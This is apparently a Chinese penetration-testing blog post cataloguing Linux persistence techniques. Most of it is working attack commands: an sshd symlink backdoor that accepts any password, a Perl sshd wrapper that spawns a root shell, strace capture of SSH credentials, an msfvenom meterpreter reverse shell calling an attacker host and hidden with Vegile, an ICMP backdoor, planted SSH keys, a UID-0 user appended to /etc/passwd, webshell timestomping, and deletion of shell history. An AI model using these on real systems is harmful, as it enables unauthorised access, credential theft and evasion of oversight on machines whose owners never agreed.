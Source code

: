 ```yaml
---
title: Linux权限维持
date: 2021-05-25 21:40:55
categories: 渗透测试技巧
tags: 权限维持
---
```


#### 背景

学习了一下Linux的权限维持，对一些常规的linux权限维持技巧做一个简单的记录。

虽然手法老套，容易查杀，但在有些环境也许仍有用武之地。

<!--more-->

#### 权限维持

##### SSH软连接

将sshd软连接名设置为su，启动时会去PAM配置文件夹寻找相对应名称的配置信息，而su在pam_rootok只检测uid 0 即可认证成功，从而可以使用任意密码登录。

`ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=4444;`

![](https://cdn.laohuan.art/2021-05-04_14-48-07ssh%E8%BD%AF%E9%93%BE%E6%8E%A51.png)

可使用当前用户登录也可新建用户

`sudo useradd test -p test`

密码随便输入即可登录

![](https://cdn.laohuan.art/2021-05-04_14-51-33-ssh%E8%BD%AF%E9%93%BE%E6%8E%A53.png)

##### SSH Wrapper

```bash
cd /usr/sbin/
mv sshd ../bin/
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd #4A是13377的小端模式
echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
/etc/init.d/ssh restart
```

![](https://cdn.laohuan.art/2021-05-08_16-29-15-wrappr-1.png)

无13377端口处于监听状态

![](https://cdn.laohuan.art/2021-05-08_16-31-40-wrappr-2.png)

攻击机执行如下命令

​	`socat STDIO TCP4:192.168.19.139:22,sourceport=13377`

![](https://cdn.laohuan.art/2021-05-08_16-32-24-wrappr-3.png)

想要修改端口，使用python

```python
import struct
buffer = struct.pack('>I6',6666)
print repr(buffer)
```

##### strace监听ssh来源流量

`ps -ef | grep sshd`  //父进程PID

![](https://cdn.laohuan.art/2021-05-10_21-03-36-strace.png)

`strace -f -p 2387 -o /tmp/.ssh.log -e trace=read,write,connect -s 2048`

`grep "read(6" /tmp/.ssh.log | tail -n 10`

![](https://cdn.laohuan.art/2021-05-10_21-00-27-strace2.png)

##### 端口复用

`apt install sslh`

`sudo nano /etc/default/sslh`

将**Run=no**改为**Run=yes**，再修改其需要复用的端口

![](https://cdn.laohuan.art/2021-05-08_18-40-24-%E7%AB%AF%E5%8F%A3%E5%A4%8D%E7%94%A8.png)

直接ssh 443端口

![](https://cdn.laohuan.art/2021-05-08_18-43-40-%E7%AB%AF%E5%8F%A3%E5%A4%8D%E7%94%A8.png)

在测试时发现443端口如果有服务监听时无法成功，可能是我环境问题。

##### vegile

[传送门](https://github.com/Screetsec/Vegile.git)

```bash
git clone https://github.com/Screetsec/Vegile.git
cd Vegile
chmod +x Vegile
```

帮助信息

![](https://cdn.laohuan.art/2021-05-10_21-46-59-vegile-h.png)

生成msf木马

`msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.19.146 LPORT=4444 -f elf > test.elf`

隐藏木马

`chmod +x test.elf`
`./Vegile --u test.elf`

![](https://cdn.laohuan.art/2021-05-10_22-00-14-vegile-t.png)

##### ICMP后门

[项目地址](https://github.com/andreafabrizi/prism)

安装

```bash
git clone https://github.com/andreafabrizi/prism.git
apt-get install libc6-dev-amd64
```

修改文件

`nano prism.c`

![](https://cdn.laohuan.art/2021-05-12_20-58-19-icmp-1.png)

编译

`gcc -DDETACH -m64 -Wall -s -o prism prism.c`

Nc 监听

`nc -lvp 6666`

执行反弹命令

`python sendPacket.py 192.168.19.139 test  192.168.19.146 6666`

![](https://cdn.laohuan.art/2021-05-12_20-59-32-icmp-2.png)

成功获取shell,python交互式shell

`python -c "import pty;pty.spawn('/bin/bash')"`

![](https://cdn.laohuan.art/2021-05-12_21-01-22-icmp-3.png)

##### SSH KEY

生成密钥对

​	`ssh-keygen -t rsa`

直接回车会在默认位置～/.ssh下生成密钥对，我这里生成test

![](https://cdn.laohuan.art/2021-05-13_21-01-17-sshkey1.png)

将公钥test.pub的内容放到目标的authorized_keys文件中

`echo test.pub >> ~/.ssh/authorized_keys`

设置权限

`chmod 600 ~/.ssh/authorized_keys`
`chmod 700 ~/.ssh`

![](https://cdn.laohuan.art/2021-05-13_21-01-56-sshkey2.png)

连接目标，**-i** 指定私钥

`ssh -i test root@192.168.19.139 `

![](https://cdn.laohuan.art/2021-05-13_21-02-32-sshkey3.png)

##### 其他命令

1. 创建root用户

   生成密码

   `perl -le 'print crypt("123456","haha")' `//密码:123456 盐值:haha

![](https://cdn.laohuan.art/2021-05-13_21-48-52-add_root1.png)

​	写入passwd

​	`echo "hacker:hazsR9UJJSGrk:0:0:root:/root:/bin/bash">>/etc/passwd`

2. 时间戳

   `touch -r index.php shell.php` //将shell.php的时间戳改为index.php的时间戳

3. 文件加锁

   `chattr +i shell.php`

   解锁

   `chattr -i shell.php`

4. history历史命令记录

   关闭历史命令记录

   `[空格]set +o history` //前面有空格，意味着此条命令也不会被记录

   

   删除历史命令

   `history -d num ` //num为要删除的命令序号

   

   恢复历史命令记录

   `set -o history`

#### 参考连接

[https://xz.aliyun.com/t/7338](https://xz.aliyun.com/t/7338)

[https://www.cnblogs.com/-mo-/p/12337766.html](https://www.cnblogs.com/-mo-/p/12337766.html)


